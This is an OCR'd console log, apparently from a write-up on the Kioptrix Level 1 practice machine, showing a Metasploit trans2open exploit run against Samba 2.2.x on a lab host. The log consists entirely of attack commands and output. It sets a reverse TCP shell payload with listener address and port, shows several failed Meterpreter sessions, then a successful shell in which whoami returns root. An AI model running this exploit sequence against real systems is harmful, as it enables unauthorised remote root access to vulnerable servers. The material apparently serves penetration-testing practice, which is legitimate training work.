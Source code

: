 ```bash
[*] Sending stage (985320 bytes) to 192.168.88.129
[*] Meterpreter session 2 opened (192.168.88.128:4444 -> 192.168.88.129:32801) at 2020-01-02 18:10:25 +0100
[*] 192.168.88.129 - Meterpreter session 2 closed.  Reason: Died
[*] 192.168.88.129:139 - Trying return address 0xbffff8fc...
[*] Sending stage (985320 bytes) to 192.168.88.129
[*] 192.168.88.129 - Meterpreter session 3 closed.  Reason: Died
[*] Meterpreter session 3 opened (127.0.0.1 -> 192.168.88.129:32802) at 2020-01-02 18:10:27 +0100
[*] 192.168.88.129:139 - Trying return address 0xbffff7fc...
[*] Sending stage (985320 bytes) to 192.168.88.129
[*] 192.168.88.129 - Meterpreter session 4 closed.  Reason: Died
[*] Meterpreter session 4 opened (127.0.0.1 -> 192.168.88.129:32803) at 2020-01-02 18:10:28 +0100

msf5 exploit(linux/samba/trans2open) > set payload linux/x86/shell_reverse_tcp
payload => linux/x86/shell_reverse_tcp
msf5 exploit(linux/samba/trans2open) > show options

Module options (exploit/linux/samba/trans2open):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  192.168.88.129   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   139              yes       The target port (TCP)


Payload options (linux/x86/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   CMD    /bin/sh          yes       The command string to execute
   LHOST  192.168.88.128   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Samba 2.2.x - Bruteforce


msf5 exploit(linux/samba/trans2open) > run

[*] Started reverse TCP handler on 192.168.88.128:4444
[*] 192.168.88.129:139 - Trying return address 0xbffffdfc...
[*] 192.168.88.129:139 - Trying return address 0xbffffcfc...
[*] 192.168.88.129:139 - Trying return address 0xbffffbfc...
[*] 192.168.88.129:139 - Trying return address 0xbffffafc...
[*] Command shell session 5 opened (192.168.88.128:4444 -> 192.168.88.129:32804) at 2020-01-02 18:14:44 +0100

whoami
root
hostname
kioptrix.level1
```
